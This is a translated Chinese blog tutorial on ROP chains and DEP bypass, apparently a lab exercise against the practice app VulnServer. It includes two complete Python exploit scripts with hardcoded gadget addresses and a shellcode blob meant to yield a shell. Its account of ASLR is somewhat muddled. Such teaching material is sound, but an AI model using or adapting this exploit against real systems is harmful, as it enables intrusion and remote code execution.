




2022-6-14
***

### ROP 和绕过 DEP 的简要介绍

这篇文章旨在简要介绍面向返回的编程和绕过 DEP。这篇博文中的任何内容都不是新的或开创性的研究。今天，我们将研究 VulnServer 中一个非常基本的缓冲区溢出，它具有现代风格。 VulnServer 是一个故意易受攻击的应用程序，供研究人员和爱好者练习他们的技能。可以说有各种不同的“挑战”，涵盖了在传统缓冲区溢出攻击中可能遇到的不同场景。我们将介绍一些基础知识，关于 Windows 内存保护的，以及我们如何滥用某些条件来绕过这些保护。

#### 溢出漏洞保护机制

你应该熟悉一些现代漏洞利用缓解措施。我们今天最关心的是地址空间布局随机化（ASLR）和数据执行保护（DEP）。ASLR 早在 XP SP2 中就已经存在于 Microsoft Windows 中，用于内核模块（甚至更早）。

SLR 有几种不同的形式和实现，但在利用方面最重要的障碍是内核 ASLR (KASLR)。本质上，程序的内存范围将在启动时随机化，从而使漏洞利用中的任何静态值失去可靠性。

另一个障碍（我们今天将要击败的）是 DEP。 DEP 早在 XP SP2 和 Server 2003 SP1 就已在 Windows 中实现。DEP 将内存页标记为不可执行，使我们溢出到它的任何代码无法执行。在某些情况下，我们可以通过对某些 Windows API 的面向返回的编程 (ROP) 来击败 DEP。为此，我们必须以如下方式组装我们想要执行的指令

```assembly
0x1111111A SomeInstruction
0x1111111B retn
```

这些被称为 ROP gadgets 。多个 gadgets 组成一个 chain 。 rop chain 的目标是组装指令以执行我们想要的操作，然后 return 到我们 chain 的下一个 gadget 。这可能是你读过的关于这个主题的最友好的解释，它比我的总结要复杂得多。 rop gadget 的一个经典示例是 SEH 漏洞利用中使用的受相当老的 pop/pop/ret 技术。

```assembly
0x1111111A pop esi
0x1111111B pop edi
0x1111111C retn
```

这个 gadget 从堆栈中 pop 两个 words，并将执行控制权返回到位于第二个地址（下一个 SEH 的地址）的内存。让我们在启用 DEP 后观察 VulnServer 上发生的一些有趣的事情。

*译者注：跳过了一部分，关于 offset fuzz 的部分*



我们还在 ESP 中显示了溢出的数据。所以我们现在要做的就是找到一条 JMP ESP 指令，我们成功了，对吧？

这里有几个问题

- 所有地址都以空字节开头 ，从而终止我们的其余代码 。
- 即使我们找到了一个不包含空字节的地址，DEP 仍然会阻止我们。

让我们看看我们是否可以在 ROP 方面取得更多进展。

####  构建 ROP 链

所以我们知道我们存在空字节和 DEP 限制。 使用 mona 脚本的 “！mona rop” 命令。这个命令有很多便利的功能。让我们来看看其中的一些：



我们已经可以看到一些参数对我们很有用。主要是 -cp 和 -m 参数。我们可以使用 -cp nonull 查看地址空间中不包含空字节的模块，并使用 -m 参数指定所有模块或特定模块。让我们使用以下命令生成一个 rop 链

```
!mona rop -cp nonull -m *
```

该命令将搜索所有加载的模块，并构建一个 ROP 小工具链供我们绕过 DEP。这需要一段时间才能完成。

在它完成之后，让我们快速查看一下它创建的 ROP chain。



这里存在大量的操作，有一些十分令人困惑。让我们看一下 VirtualAlloc 的 MSDN，并更好地了解它与 DEP 的关系。

*保留，修改调用进程的一块虚拟内存地址的状态，此函数分配的内存初始化为零。*

```c#
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

检查 VirtualProtect（另一个经常被滥用的绕过 DEP 的函数），我们可以看到这两个函数之间的功能有一些相似之处

*改变调用进程的虚拟地址空间一块区域的保护状态。*

```c#
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

首先在我们上面的 ROP 链的中，它从 sechost.dll 的 Import Address Table 获取 VirtualAlloc() 的位置，然后返回。请记住，ROP 链中的每个 gadget 都需要指定一个 retn 操作码，以将控制权返回给链中的后续 gadget。在对参数进行一些巧妙的计算之后，链将这些参数分配给 VirtualAlloc，并使用以下启发式调用

1. 分配一个新的内存区域 
2. 从 DEP 中去掉该区域 
3. 将 shellcode 的位置存储到 EAX 
4. 从 EAX 返回到 shellcode 的新位置

让我们生成另一个 ROP 链，将 C 更改为 \xCC 以实现一个调试器中断，看看会发生什么（请注意，这个新链使用了 VirtualProtect 绕过 DEP）

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)


def main():

    rop_chain = create_rop_chain()

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += "\xCC"*(3500-2003-len(rop_chain))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()
```



我们做到了！我们在 Windows 10 上绕过了 DEP，我们现在需要做的就是添加一个 NOP 雪橇以确保安全。

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

shellcode =  b""
shellcode += b"\xba\x80\x08\x48\x4a\xd9\xc6\xd9\x74\x24\xf4\x5d\x33"
shellcode += b"\xc9\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\xd5\x06\xaa"
shellcode += b"\xbf\x29\xfe\xa8\x40\xd1\xff\xcc\xc9\x34\xce\xcc\xae"
shellcode += b"\x3d\x61\xfd\xa5\x13\x8e\x76\xeb\x87\x05\xfa\x24\xa8"
shellcode += b"\xae\xb1\x12\x87\x2f\xe9\x67\x86\xb3\xf0\xbb\x68\x8d"
shellcode += b"\x3a\xce\x69\xca\x27\x23\x3b\x83\x2c\x96\xab\xa0\x79"
shellcode += b"\x2b\x40\xfa\x6c\x2b\xb5\x4b\x8e\x1a\x68\xc7\xc9\xbc"
shellcode += b"\x8b\x04\x62\xf5\x93\x49\x4f\x4f\x28\xb9\x3b\x4e\xf8"
shellcode += b"\xf3\xc4\xfd\xc5\x3b\x37\xff\x02\xfb\xa8\x8a\x7a\xff"
shellcode += b"\x55\x8d\xb9\x7d\x82\x18\x59\x25\x41\xba\x85\xd7\x86"
shellcode += b"\x5d\x4e\xdb\x63\x29\x08\xf8\x72\xfe\x23\x04\xfe\x01"
shellcode += b"\xe3\x8c\x44\x26\x27\xd4\x1f\x47\x7e\xb0\xce\x78\x60"
shellcode += b"\x1b\xae\xdc\xeb\xb6\xbb\x6c\xb6\xde\x08\x5d\x48\x1f"
shellcode += b"\x07\xd6\x3b\x2d\x88\x4c\xd3\x1d\x41\x4b\x24\x61\x78"
shellcode += b"\x2b\xba\x9c\x83\x4c\x93\x5a\xd7\x1c\x8b\x4b\x58\xf7"
shellcode += b"\x4b\x73\x8d\x58\x1b\xdb\x7e\x19\xcb\x9b\x2e\xf1\x01"
shellcode += b"\x14\x10\xe1\x2a\xfe\x39\x88\xd1\x69\x4c\x47\xd3\x79"
shellcode += b"\x38\x55\xe3\x68\xe4\xd0\x05\xe0\x04\xb5\x9e\x9d\xbd"
shellcode += b"\x9c\x54\x3f\x41\x0b\x11\x7f\xc9\xb8\xe6\xce\x3a\xb4"
shellcode += b"\xf4\xa7\xca\x83\xa6\x6e\xd4\x39\xce\xed\x47\xa6\x0e"
shellcode += b"\x7b\x74\x71\x59\x2c\x4a\x88\x0f\xc0\xf5\x22\x2d\x19"
shellcode += b"\x63\x0c\xf5\xc6\x50\x93\xf4\x8b\xed\xb7\xe6\x55\xed"
shellcode += b"\xf3\x52\x0a\xb8\xad\x0c\xec\x12\x1c\xe6\xa6\xc9\xf6"
shellcode += b"\x6e\x3e\x22\xc9\xe8\x3f\x6f\xbf\x14\xf1\xc6\x86\x2b"
shellcode += b"\x3e\x8f\x0e\x54\x22\x2f\xf0\x8f\xe6\x5f\xbb\x8d\x4f"
shellcode += b"\xc8\x62\x44\xd2\x95\x94\xb3\x11\xa0\x16\x31\xea\x57"
shellcode += b"\x06\x30\xef\x1c\x80\xa9\x9d\x0d\x65\xcd\x32\x2d\xac"

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

def main():

    rop_chain = create_rop_chain()
    nop_sled = "\x90"*8

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += nop_sled
    buffer += shellcode
    buffer += "C"*(3500-2003-len(rop_chain)-len(nop_sled)-len(shellcode))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()

```

get shell。